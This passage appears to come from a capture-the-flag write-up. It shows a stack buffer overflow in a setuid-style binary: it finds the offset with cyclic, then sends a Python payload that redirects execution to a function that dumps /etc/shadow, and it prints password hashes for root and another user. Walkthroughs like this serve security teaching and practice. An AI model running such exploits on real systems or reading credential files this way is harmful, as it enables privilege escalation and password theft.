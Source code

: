 
Use cyclic command to find the offset at which the binary Segfaults.</br>

```
r < <(cyclic 50)
```

The program received a Segfault : 

```
Program received signal SIGSEGV (fault address 0x6161616c)
```

Find the offset using `cyclic -l`.

```
pwndbg> cyclic -l 0x6161616c
44
```
The offset is at 44.

Address of the shell function : `0x080484cb`

```
pingu@ubuntu:/opt/secret$ python -c 'print "a"*44+"\xcb\x84\x04\x08"' | ./root 
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
Segmentation fault
```
This basically gives us the /etc/shadow file.</br>
